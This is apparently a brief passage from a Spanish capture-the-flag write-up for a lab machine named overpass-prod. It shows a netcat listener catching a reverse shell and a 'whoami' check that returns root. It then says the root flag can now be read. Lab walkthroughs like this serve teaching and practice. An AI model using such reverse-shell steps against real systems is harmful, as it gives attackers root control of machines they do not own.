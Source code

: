 ```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.9.85.95] from (UNKNOWN) [10.10.30.247] 39924
bash: cannot set terminal process group (11456): Inappropriate ioctl for device
bash: no job control in this shell
root@overpass-prod:~# whoami
whoami
root
root@overpass-prod:~# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt).